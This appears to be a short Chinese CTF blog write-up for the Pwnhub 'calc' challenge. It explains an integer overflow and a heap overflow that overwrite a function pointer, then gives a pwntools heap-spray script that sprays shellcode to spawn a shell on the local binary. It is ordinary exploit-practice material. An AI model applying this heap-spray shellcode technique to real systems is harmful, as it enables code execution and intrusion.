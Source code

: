 ```yaml
---
title: Pwnhub 故事的开始 calc
date: 2020-05-19 00:00:00
categories:
- CTF/Pwn
tags: 堆喷
---
```


> 漏洞点为一个整数溢出和一个堆溢出，其中整数溢出可以转化为另一个堆溢出。本题利用方法为利用原生的堆溢出漏洞，可以覆盖一个存在间接跳转的二级指针，因为没有开启NX，所以结合堆喷即可getshell。虽然堆喷解法的exp很简单，但本题的逆向却是是很耗时的。

- [题目列表 / Calculator](https://pwnhub.cn/questiondetail?id=1)
- [pwnhub.cn 故事的开始 calc Writeup](https://atum.li/2016/12/05/calc/)

```python
from pwn import *
context(arch="i386", os="linux")
elf = ELF("./calc")
io = process(elf.path)

io.sendlineafter("> ",'var a = "a"')
payload = '"'+asm(shellcraft.sh()).rjust(200,"\x0c")+'" * 500'

for i in range(6000):
   io.sendlineafter("> ",payload)

io.sendline("a "*50)
io.recvuntil(">")
io.interactive()
```